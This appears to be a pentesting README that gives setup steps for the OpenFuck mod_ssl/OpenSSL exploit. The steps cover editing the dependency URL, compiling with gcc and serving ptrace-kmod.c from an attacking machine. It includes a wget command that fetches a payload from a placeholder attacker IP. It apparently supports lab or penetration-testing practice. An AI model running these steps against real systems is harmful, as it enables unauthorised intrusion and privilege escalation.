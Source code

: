 # pentest
 
**openfuckV2.c - mod_ssl 2.8.7 OpenSSL exploit** (https://www.exploit-db.com/exploits/764)

Change location for **ptrace-kmod.c**
at about line 672 - update download location for ptrace-kmod.c file. Ideally, you can host this file on your webserver (eg. attacking machine SimpleHTTPServer) so that when you execute the exploit it will retrieve this dependency to run successfully.
`wget http://your-attacking-ipaddress/ptrace-kmod.c;`

install libssl-dev
`apt-get install libssl-dev`

compile code
`gcc -o openfuck openfuckV2.c -lcrypto`

In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80
